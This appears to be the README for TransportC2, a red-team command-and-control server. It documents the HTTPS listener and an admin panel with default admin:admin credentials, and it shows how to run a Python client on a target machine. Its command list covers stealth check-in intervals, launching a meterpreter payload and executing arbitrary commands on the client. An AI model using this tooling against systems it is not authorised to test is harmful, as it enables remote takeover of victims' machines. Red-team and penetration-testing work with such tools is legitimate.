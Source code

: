 # TransportC2

### Summary
TransportC2 is a command and control server that is able to run in the background as a service. This allows penetration testers and red teamers the ability to spend time gathering target machines, without being tied to an active session to the C2. Interact with clients through a private web interface that requires authentication, and allows administrators to add multiple users. All logins, commands, and responses are logged to provide a traceable point of reference.

Why "Transport"? TransportC2 is meant to me a long-term command and control server that allows users to direct payloads to other, shorter-term channels. This is exemplified by the built-in Metasploit payload. Simply execute "msfpayload 192.168.1.1 4444" on the client to open a meterpreter session on a listening server.


### Server
The TransportC2 server has two components: 
1) An HTTPS server that runs over port 443 and accepts incoming client connections. 
2) An HTTPS admin interface that runs over port 8443 and allows users to interact with clients via web browser. This portal requires a username and password with a default login of **admin**:**admin**. Once logged in user's can change their password and add other users to allow team sharing.

*Modify server configurations prior to running the install script @ server/config.py*

#### Install
The setup.sh script will install all necessary requirements, create cert & key files, and move the working directory to /opt/transportc2:
```bash
git clone https://github.com/m8r0wn/transportc2
cd transportc2/install
sudo chmod +x setup.sh
./setup.sh
```

#### Interact C2 Service
```bash
sudo systemctl start transportc2.service
sudo systemctl stop transportc2.service
sudo systemctl status transportc2.service
```


### Client
As of now, TransportC2 has a PoC client written in Python 2/3. Clients will make HTTPS requests to the C2 server and mimic a web connection. Variables at the top of the client file can be modified to change client check-in intervals, requesting page, etc. 

#### Client Usage
Run the client on a target machine:
```bash
python3 https_client.py 127.0.0.1 443
```

#### Client Commands
Once a client is connected, login to the Admin Interface to execute one of the following commands:
```
stealth [int1] [int2]                   - Change client check-in intervals
msfpayload [ip] [port]                  - Launch Built in meterpreter payload
change_date [4-digit yr],[month],[day]  - Change max kill date on client
close                                   - Close / kill client
[command]                               - Execute payload on client
```


### Screenshots
![user Login](server/AdminServer/static/img/login.png)
<br><br>
![Cmd_Panel](server/AdminServer/static/img/cmd.png)
